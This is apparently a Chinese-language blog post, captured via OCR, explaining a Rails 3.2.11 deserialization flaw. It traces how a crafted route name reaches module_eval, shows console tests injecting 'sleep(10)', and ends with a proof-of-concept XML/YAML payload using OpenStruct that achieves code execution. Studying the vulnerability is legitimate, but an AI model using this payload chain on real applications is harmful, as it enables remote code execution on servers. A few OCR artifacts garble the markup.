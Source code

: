 ```

```

从上面的代码中，我们可以看到，NamedRouteCollection把"[ ] ="方法别名到了add方法，add方法进而调用了define_named_route_methods，最后在define_hash_access中我们看到了可爱的module_eval，在eval块里面，有个被替换的变量selector来自name，这样，我们只需要巧妙构造下name就可以执行任意ruby代码了！

我们在rails console中做个小试验：

```
[clozure@clozure-air:OOXX]$ rails c  
Loading development environment (Rails 3.2.11)  
1.9.3-p362 :001 >  
1.9.3-p362 :001 > test = ActionDispatch::Routing::RouteSet::NamedRouteCollection.new  
 => #<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x007fef2abcc7f0 @routes={}, @helpers=[], @module=#<Module:0x007fef2abcc6d8>>  
1.9.3-p362 :002 > test['clozure;sleep(10);clozure'] = {}  
NoMethodError: undefined method `defaults' for {}:Hash<br /><p><br />
     from /Users/clozure/.rvm/gems/ruby-1.9.3-p362/gems/actionpack-3.2.11/lib/action_dispatch/routing/route_set.rb:168:in`block in define_named_route_methods'

```

本想sleep(10)，结果不仅报错了，也没sleep成，看下报错信息，是在下面这行报错的：

```
hash = route.defaults.merge(:use_route => name).merge(opts)

```

这个我们貌似看到过吧？是的，就在define_hash_access调用的上面，还有这么一个拦路虎，它在我们的value上调用了defaults方法，我们的{}一无所有，怎么会有defaults方法呢？

这时候，我们需要OpenStruct对象出场了，出于ruby的meta programming需求，当我们OpenStruct.new("foo" => "bar")时，新创建的对象就自动有了一个foo方法，其返回值是bar，当然，你可以在bar的位置写个动态的lambda表达式，体验一把函数式编程，不过与我们的主题无关了。ok，继续试验：

```
1.9.3-p362 :003 > test = ActionDispatch::Routing::RouteSet::NamedRouteCollection.new  
 => #<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x007fef2ab551a0 @routes={}, @helpers=[], @module=#<Module:0x007fef2ab55038>>  
1.9.3-p362 :004 > test['clozure;sleep(10);clozure'] = OpenStruct.new("defaults" => {})

NameError: undefined local variable or method `clozure_url' for #<Module:0x007fef2ab55038>

```

这次程序睡足了10秒钟，然后抱怨找不到cojzure_url变量，已经做过了我们目标的eval语句，执行代码成功！

现在我们的问题变成了怎么把这个OpenStruct放到YAML里面，我们貌似没法在YAML里面给对象指定构造函数的非String的参数吧？看下OpenStruct的实现代码，我们发现它所有的“函数名=>返回值”对应关系是保存在@table实例变量里面的，这就轮到“---||||||||||| !ruby/object“前缀的YAML出场了，通过他我们可以设置实例变量，这样所有的拼图就完整了，我们得到了如下的嗜睡的poc：

```
xml = %{  
<?xml version="1.0" encoding="UTF-8"?>  
<bingo type='yaml'>  
---| !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection  
'test; sleep(10); test' :  
 !ruby/object:OpenStruct  
  table:  
   :defaults: {}  
</bingo>

}.strip

```
